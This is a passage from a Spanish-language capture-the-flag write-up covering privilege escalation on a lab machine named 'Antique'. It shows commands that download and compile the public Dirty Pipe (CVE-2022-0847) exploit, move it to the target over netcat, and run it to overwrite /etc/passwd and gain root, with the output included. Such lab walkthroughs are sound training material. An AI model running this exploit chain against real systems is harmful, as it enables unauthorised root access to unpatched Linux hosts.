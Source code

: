 Descargo el exploit.c desde la dirección en Raw del código, luego compilo con la herramienta gcc.
```
> wget https://raw.githubusercontent.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/main/exploit.c

> gcc exploit.c -o exploit
```
Ahora toca enviarlo a la máquina objetivo. Desde la máquina objetivo:
```
lp@antique:/tmp$ nc -nlvp 4448 > exploit
```
Y desde mi máquina se lo envio
```
nc 10.10.11.107 4448 < exploit
```
Vuelvo a la máquina objetivo cierro el nc que sigue en escucha y le doy permisos a ese ejecutable recibido y a darle
```
lp@antique:/tmp$ chmod +x exploit

lp@antique:/tmp$ ./exploit
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
system() function call seems to have failed :(
lp@antique:/tmp$ su root
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
```
Pues de perlas, ya somos root. El programa se encargó de sobreescribir el /etc/passwd para ponerle a root la contraseña aaron.

Conseguimos la flag de root:
```
# cat /root/root.txt
1f0feca41db57182a3ba*********
```
Una máquina distinta a lo habitual. No estaba acostumbrado a no buscar la vulnerabilidad en una web, casi siempre veo el puerto 80 abierto y en esta ocasión solo estaba el puerto 23 por tcp. Me ha gustado y he aprendido algo.

Un saludo amigxs.



